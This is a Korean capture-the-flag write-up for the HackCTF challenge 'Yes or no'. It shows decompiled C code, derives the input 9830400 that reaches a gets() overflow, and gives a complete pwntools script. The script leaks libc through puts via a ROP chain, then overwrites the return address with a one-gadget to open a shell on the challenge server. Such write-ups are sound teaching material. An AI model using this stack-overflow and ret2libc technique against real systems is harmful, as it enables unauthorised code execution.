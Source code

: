 ```yaml
---
title: "[HackCTF]Yes or no"
date: 2019-12-26
tags: [HackCTF]
categories: [HackCTF]
published: false
---
```


문제 의도는 그냥 ++전에 오는지 후에 오는지로 값 어떻게 나오는지 알아서 값을 맞춰주도록 해서 취약점으로 유도하는게 의도였던거 같다. 문제 서버는 ubuntu 18.04다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  int v4; // eax
  int v5; // ecx
  int v6; // eax
  int v7; // eax
  char s; // [rsp+Eh] [rbp-12h]
  int input; // [rsp+18h] [rbp-8h]
  int v11; // [rsp+1Ch] [rbp-4h]

  setvbuf(stdout, 0LL, 2, 0LL);
  v11 = 5;
  puts("Show me your number~!");
  fgets(&s, 10, stdin);
  input = atoi(&s);
  if ( (v11 - 10) >> 3 < 0 )
  {
    v4 = 0;
  }
  else
  {
    v3 = v11++;
    v4 = input - v3;
  }
  if ( v4 == input )
  {
    puts("Sorry. You can't come with us");
  }
  else
  {
    v5 = 1204 / ++v11;
    v6 = v11++;
    if ( input == v6 * v5 << (++v11 % 20 + 5) )
    {
      puts("That's cool. Follow me");
      gets(&s);
    }
    else
    {
      v7 = v11--;
      if ( input == v7 )
      {
        printf("Why are you here?");
        return 0;
      }
      puts("All I can say to you is \"do_system+1094\".\ngood luck");
    }
  }
  return 0;
}
```

입력한 숫자 정수형을 바꿔서 취약점 터지는 부분에 가게 하면 된다.

```
if ( input == v6 * v5 << (++v11 % 20 + 5) )
{
	puts("That's cool. Follow me");
	gets(&s);
}
```

취약점은 여기에서 터진다. 그래서 input값을 구해주면 된다.

![](https://user-images.githubusercontent.com/32904385/71475652-898eeb00-2824-11ea-8b21-9cb91fea4988.png)

그냥 c로 짜서 나온 결과 가져왔다. 결과는 `9830400` 이면 통과해서 `gets(&s)` 로 갈 수 있게된다.

그래서 `9830400` 들어가서 gets로 ret 바꿔서 puts leak하고 main으로 돌려서 oneshot 날려주면 된다. 그냥 문제에 라이브러리도 줘서 쉽게 풀었다.

```python
from pwn import *

context.arch = 'amd64'
# context.log_level = 'debug'
e = ELF('./yes_or_no')
# p = process('./yes_or_no')
p = remote('ctf.j0n9hyun.xyz',3009)
libc = ELF('./libc-2.27.so')
prdi = 0x0000000000400883 # pop rdi ; ret

p.sendlineafter('!\n',str(9830400))

payload = '\x90' * 0x12
payload += 'realsung'
payload += p64(prdi) + p64(e.got['puts']) + p64(e.plt['puts'])
payload += p64(e.symbols['main'])

p.sendlineafter('me\n',payload)

libc_base = u64(p.recvuntil('\x7f').ljust(8,'\x00')) - libc.symbols['puts']
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter('!\n',str(9830400))

payload2 = '\x90' * 0x12
payload2 += 'realsung'
payload2 += p64(libc_base + 0x45216)
p.sendlineafter('me\n',payload2)

p.interactive()
```

